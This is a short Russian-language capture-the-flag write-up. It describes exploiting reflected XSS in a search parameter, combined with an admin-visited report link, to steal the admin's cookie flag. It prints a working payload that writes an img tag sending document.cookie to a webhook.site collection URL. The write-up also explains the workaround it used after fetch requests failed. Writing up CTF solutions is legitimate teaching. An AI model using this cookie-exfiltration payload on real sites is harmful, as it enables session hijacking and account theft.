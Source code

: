 # Клиент всегда прав

Описание: Какой-то админ ворует наши публикации и выставляет их на свой сайт. Ты ведь не будешь сидеть сложа руки?

При заходе на страницу таска мы видим список публикаций

![Вход в аккаунт](./client-always-right/1.png)

При заходе на страницу отдельной публикации у нас в адресной строке появляется новый аргумент publication, указывающий на нужную публикацию (пример - `http://62.173.140.174:16013/?publication=ilon-mask`). При поиске добавляется аргумент search (например, `http://62.173.140.174:16013/?search=asd`). Это поле было проверено на возможность использования XSS

![Проверка на XSS](./client-always-right/2.png)

Также, на сайте есть кнопки репорта, предположительно, отправляющие администраторам сообщения о жалобах на различные публикации. В адресную строку добавляется сразу два аргумента - report и publication (например, `http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?publication=ilon-mask`)

После нескольких неудачных попыток использования XSS для вытягивания куки было выяснено, что запросы с помощью функции fetch не работают

![Проверка на XSS](./client-always-right/3.png)

Вместо fetch был использован другой способ получения запросов - использование html-тегов с ссылками. Был использован тег `<img>`. XSS с кодом вставки этого тега была добавлена в ссылку, на которую ведёт аргумент report в запросе

```
http://62.173.140.174:16013/?search=<script>document.write('<img src="https://webhook.site/d8d1aac6-b164-4a5d-893b-95712bf5e631?asd='%2bdocument.cookie%2b'"/>');</script>
```

В итоге, с админки прилетел запрос с необходимым флагом в куки

![Полученный флаг](./client-always-right/3.png)
